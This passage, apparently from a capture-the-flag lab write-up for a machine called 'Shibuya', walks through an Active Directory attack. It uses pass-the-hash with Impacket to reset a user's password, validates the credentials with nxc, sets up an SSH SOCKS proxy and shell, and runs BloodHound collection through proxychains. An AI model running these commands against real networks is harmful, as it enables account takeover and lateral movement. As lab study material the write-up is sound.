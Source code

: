 
NewPassword123!

smbclient.py for change password

```
➜  Shibuya smbclient.py -hashes :5d8c3d1a20bd63f60f469f6763ca0d50 shibuya.vl/Simon.Watson@shibuya.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# password
New Password:
--------------------------
➜  Shibuya nxc smb shibuya.vl -u simon.watson -p 'NewPassword123!'            
SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.216   445    AWSJPDC0522      [+] shibuya.vl\simon.watson:NewPassword123!
```
we have ssh which is open so lets use it for access machine and put proxyc for other ports (LDAP,WINRM,RDP etc.)
### Proxy
```
➜  Shibuya ssh Simon.Watson@shibuya.vl -p22 -N -D 1080
Simon.Watson@shibuya.vl's password:
```
but it will just put proxy not will drop shell 

for drop shell

```
ssh Simon.Watson@shibuya.vl
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

shibuya\simon.watson@AWSJPDC0522 C:\Users\simon.watson>
```
### Bloodhound btw
```
proxychains -q bloodhound-python -u 'simon.watson' -d shibuya.vl -p 'NewPassword123!' -ns 127.0.0.1 --disable-pooling --zip -c all,loggedon --dns-timeout 50 -dc AWSJPDC0522.shibuya.vl
proxychains -q dnschef --fakeip 10.10.100.216 --fakedomains shibuya.vl -q
```
but there is just interesting  things is here

for example our users member of t2_admins

```
PS C:\Users\simon.watson> net users simon.watson
User name                    Simon.Watson
Full Name                    Simon Watson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/21/2025 3:44:22 PM
Password expires             Never
Password changeable          2/22/2025 3:44:22 PM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
```